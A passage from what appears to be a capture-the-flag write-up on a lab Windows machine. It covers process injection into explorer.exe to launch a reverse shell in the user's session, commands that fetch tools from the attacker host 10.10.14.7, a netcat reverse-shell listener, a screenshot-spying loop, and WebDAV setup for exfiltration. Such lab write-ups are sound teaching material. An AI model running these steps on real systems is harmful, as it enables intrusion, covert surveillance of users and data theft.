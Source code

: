 ```
BOOL ShellExecuteExW(
  [in, out] SHELLEXECUTEINFOW *pExecInfo
);
```

This function is pretty much ideal: It has exactly one argument (just like LoadLibrary) and allows to run any binary on disk. So in the end I ended up finding where the address of ShellExecuteExW is loaded at in explorer.exe, allocated the required argument structure inside explorer.exe and used WriteProcessMemory to copy it into the explorer.exe process. Finally a call to CreateRemoteThread pointing to ShellExecuteW and the argument structure allows us to execute an arbitrary executeable. This is implemented in [adopt](https://github.com/xct/adopt).

So with this out of the way, we can continue to spawn a Session 1 process, using explorer.exe as a trampoline. We confirm that the new shell is indeed in session 1:

```
[>] iwr http://10.10.14.7/drop/adopt.exe -outfile C:\windows\temp\adopt.exe
[>] \windows\temp\adopt.exe explorer.exe c:\\windows\\temp\\rcat_10.10.14.7_1337.exe
...
nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.145] 49820
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
Try the new cross-platform PowerShell https://aka.ms/pscore6
Windows PowerShell

PS C:\temp> ps | findstr rcat
ps | findstr rcat
     73       6      856       3552       0.03   5856   1 rcat_10.10.14.7_1337
```

### Spying on the user

Now we can interact with the users desktop, including start new desktop allocations or taking screenshots. I will take a couple of screenshots to get an idea on what the user is doing. This also lead me down a rabbit hole and I ended up coming with [scr](https://github.com/xct/scr). This command line tool just takes a screenshot as "scr.jpg" . In order to get a few of those I run a simple loop, rename them & finally zip them up:

```
iwr http://10.10.14.7/drop/scr.exe -outfile C:\temp\scr.exe
1..10 | % { \temp\scr.exe; start-sleep -s 3; rename-item "scr.jpg" "scr-$_.jpg" }; Compress-Archive -Path *.jpg -DestinationPath scr.zip
```

Now copying out the files could be done with something like metasploit or [xc ](https://github.com/xct/xc) but I got this far without them so lets try something else ;) We are going to use WebDAV to copy those to our attacker machine. There is a cool [repo ](https://github.com/qtc-de/container-arsenal) by [qtc ](https://twitter.com/qtc_de)that allows to start nginx with webdav support in a docker container among other things, which I’m going to use here:

```
car run nginx
[+] Environment Variables:
[+]	car_local_uid                 1000
[+]	car_nginx_folder              /home/xct/arsenal/nginx
[+]	car_download_folder           /home/xct/arsenal/nginx/download
[+]	car_upload_folder             /home/xct/arsenal/nginx/upload
[+]	car_http_port                 80
[+]	car_https_port                443
[+]
[+] Running: sudo -E docker-compose up
Starting car.nginx ... done
Attaching to car.nginx
car.nginx    | [+] Adjusting UID values.
car.nginx    | [+] Adjusting volume permissions.
```